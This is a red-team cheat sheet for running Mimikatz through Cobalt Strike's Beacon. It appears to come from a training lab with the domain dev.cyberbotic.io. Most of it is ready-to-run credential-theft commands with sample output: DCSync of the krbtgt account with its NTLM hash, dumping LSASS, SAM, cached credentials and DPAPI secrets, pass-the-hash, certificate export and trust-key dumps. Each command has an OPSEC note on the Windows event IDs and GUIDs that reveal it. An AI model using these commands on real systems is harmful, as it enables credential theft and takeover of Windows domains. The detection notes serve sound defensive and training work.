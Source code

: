 The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:

```
beacon> mimikatz !lsadump::sam
```

The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```


## logonpasswords

---

This module is still capable of retrieving NTLM hashes which is useful for pairing with the **Pass the Hash** or even cracking to recover the plaintext.

```
mimikatz !sekurlsa::logonpasswords
```

  **OPSEC**  
  
This module will open a read handle to LSASS which can be logged under event 4656.


## ekeys

---

The `sekurlsa::ekeys` Mimikatz module will dump the Kerberos encryption keys of currently logged on users.

```
mimikatz !sekurlsa::ekeys
```

  **OPSEC**  
  
This module also opens a read handle to LSASS.


## sam

---

The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only.

```
mimikatz !lsadump::sam
```

**OPSEC**  
  
This module will open a handle to the SAM registry hive.


## cache

---

Domain Cached Credentials (DCC) was designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example).  The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

The `lsadump::cache` Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

**OPSEC**  
  
This module will open a handle to the SECURITY registry hive.


## dcsync

---

The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.  DCSync is a technique which leverages this protocol to extract username and credential data from a DC.

```
mimikatz lsadump::dcsync
```

In beacon:

```
dcsync dev.cyberbotic.io DEV\krbtgt
```

**OPSEC**  
  
Directory replication can be detected if Directory Service Access auditing is enabled, by searching for 4662 events where the identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (for DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) or `89e95b76-444d-4c62-991a-0facbeda640c` (DS-Replication-Get-Changes-In-Filtered-Set).

### For Domain and GUID

Performs a DSync attack for a specified domain and GUID.

```
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}
```


## dpapi

---

### Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz !sekurlsa::dpapi
```

### Not Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc
```


## cred (decrypt)

---

Decrypts WCM blob.

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
```


## cred (get MasterKey)

---

Returns the GUID of the WCM blob's MasterKey.

```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
```


## Enable Authentication Over Proxy

---

Enables authentication over proxy.

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```


## certificates

---

### User Certificates

Exports the current user's ADCS certificates.

```
mimikatz crypto::certificates /export
```

### Computer Certificates

Exports the machine's ADCS certificates.

```
mimikatz !crypto::certificates /systemstore:local_machine /export
```


## trust

---

Dumps the domain trust hashes.

```
mimikatz lsadump::trust /patch
```

